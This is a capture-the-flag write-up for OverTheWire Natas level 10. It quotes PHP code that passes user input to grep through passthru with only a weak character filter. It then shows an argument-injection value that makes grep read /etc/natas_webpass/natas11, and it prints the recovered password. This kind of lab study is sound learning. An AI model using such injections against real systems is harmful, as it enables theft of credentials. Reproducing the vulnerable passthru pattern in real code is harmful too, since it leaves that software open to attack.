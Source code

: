 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 10"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 10 > Level 11

![natas10-01](/img/otw-natas/natas10-01.png)

Source...

```
 <html>
[...]
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as the previous challenge but now we are forbidden to use a semicolon, pipe, or ampersand.

In this case, instead of breaking out of the command we'll try to craft it to do what we want itself. By using a comment character we can eliminate dictionary.txt and insert our own choice of file. To be sure it will match, we'll search for any letter or number.

Our injection...

```
[a-z0-9] /etc/natas_webpass/natas11 #
```

The command as executed by the system...

```
grep -i [a-z0-9] /etc/natas_webpass/natas11 # dictionary.txt
```

Sweet.

![natas10-02](/img/otw-natas/natas10-02.png)

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

